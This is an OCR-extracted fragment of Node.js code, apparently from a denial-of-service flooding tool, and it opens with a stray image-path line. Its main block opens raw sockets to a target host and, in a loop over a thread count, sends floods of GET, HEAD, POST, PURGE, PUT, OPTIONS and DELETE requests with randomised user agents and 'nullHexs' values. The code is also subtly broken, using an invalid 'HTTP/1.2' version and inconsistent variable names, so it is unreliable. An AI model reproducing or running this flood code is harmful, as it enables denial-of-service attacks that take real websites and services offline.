                    .on("response", response => {
                       request.close();
                       request.destroy();
                       return
                   });
   
                   request.end();
               }
           }, 1000); 
        });

        client.on("close", () => {
            client.destroy();
            connection.destroy();
            return
        });

        client.on("error", error => {
            client.destroy();
            connection.destroy();
            return
        });
    });

    //method
    var s = require('net').Socket();
    s.connect(80, parsedTarget.host);
    s.setTimeout(10000);
    for (var i = 0; i < args.threads; i++) {
        s.write('GET ' + parsedTarget.host + ' HTTP/1.1\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
        s.write('HEAD ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
		s.write('POST ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + nullHexs[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n'); 
		s.write('PURGE ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n'); 
		s.write('PUT ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
		s.write('OPTIONS ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + nullHexs[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n'); 
		s.write('DELETE ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n'); 
